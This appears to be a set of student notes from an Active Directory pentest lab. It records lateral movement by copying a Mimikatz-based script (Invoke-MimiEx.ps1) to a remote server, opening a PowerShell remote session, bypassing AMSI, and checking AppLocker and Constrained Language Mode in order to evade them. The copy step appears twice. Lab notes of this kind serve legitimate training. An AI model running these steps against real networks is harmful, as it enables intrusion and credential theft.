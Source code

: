 ### Derivative local admin access exploitation - (which is actually dcorp-mgmt)

```
Using --> Find-PSRemotingLocalAdminAccess -Verbose
We get --> dcorp-adminsrv
```

First we will copy **Invoke-MimiEx.ps1** to dcorp-adminsrv machine then do Enter-PSSession again

```
Copy-Item C:\Users\ADTools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```

Now,

```
Enter-PSSession dcorp-adminsrv
```

Bypass AMSI, but we get an error -

_Cannot invoke method. Method invocation is supported only on core types in this language mode_.

So, Now -->

```
$ExecutionContext.SessionState.LanguageMode
Which will give --> ConstrainedLanguage
```

Which means - PowerShell is running in Constrained Language Mode

So, now we need to evade this.

We'll be using AppLocker (which is a trusted signed server through which we can execute commands which are not allowed in ConstrainedLanguage Mode)

```
Get-AppLockerPolicy -Effective
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

#### Bonus! --> How to look at Windows Registry key using command line -

```
reg query HKLM\Software\policies\Microsoft\Windows\SRPV2
 --> specific policy under - \Script\06dce67b-934c-454f-a263-2515c8796a5d
```

NOTE :- **SRPV2** is used for **AppLocker**

First we will copy **Invoke-MimiEx.ps1** to dcorp-adminsrv machine then do Enter-PSSession again

```
Copy-Item C:\Users\ADTools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```
